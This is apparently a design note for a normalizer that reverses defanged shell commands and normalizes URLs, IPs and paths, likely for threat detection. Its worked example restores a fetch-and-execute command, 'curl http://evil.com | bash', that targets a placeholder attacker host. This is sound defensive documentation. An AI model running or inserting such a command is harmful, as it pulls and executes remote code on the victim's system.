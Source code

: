 **Note**: Path normalization replaces entire path including casing. This is acceptable as path depth is the semantic feature, not exact name.

---

## Normalization Order Dependencies

### Critical Ordering Requirements

The DefangingAwareNormalizer applies transformations in specific order to prevent pattern interference:

#### 1. Defanging Reversal Order (within `_reverse_defanging()`)

```python
# Order matters! Later patterns depend on earlier ones being resolved
1. Risk prefix removal     → [defang:dangerous] stripped first (metadata only)
2. URL schemes            → hxxp → http (needed before command matching)
3. Command names          → cxrl → curl (needed before operator replacement)
4. Operators              → [PIPE] → | (simpler patterns after complex ones)
5. Subshell markers       → [SUBSHELL]...[SUBSHELL] → $(...)
6. Backtick markers       → [BACKTICK]...[BACKTICK] → `...`
```

**Rationale for Order**:
- **Risk prefix first**: Pure metadata, no semantic content
- **URL schemes early**: URLs may appear in subshells, must be reversed before outer patterns
- **Commands before operators**: Prevents operator symbols from affecting command name matching
- **Complex markers last**: Subshell/backtick patterns are most complex, process after simpler patterns

**Example Demonstrating Dependency**:
```python
# Input: "[defang:dangerous] cxrl hxxp://evil.com [PIPE] bxsh"

# Step 1: Risk prefix → "cxrl hxxp://evil.com [PIPE] bxsh"
# Step 2: URL schemes → "cxrl http://evil.com [PIPE] bxsh"
# Step 3: Commands    → "curl http://evil.com | bash"
# Step 4: Operators   → "curl http://evil.com | bash"
# Result: All patterns resolved without interference
```

#### 2. Semantic Normalization Order (within `_normalize_semantically()`)

```python
1. URLs               → http://evil.com → [URL]
2. IP addresses       → 192.168.1.1 → [IP]
3. File paths         → /tmp/file → [PATH:2]
```

**Rationale for Order**:
- **URLs before IPs**: URLs may contain IP addresses (http://192.168.1.1/), must process URL first
- **Paths last**: Paths are most specific, least likely to interfere with other patterns
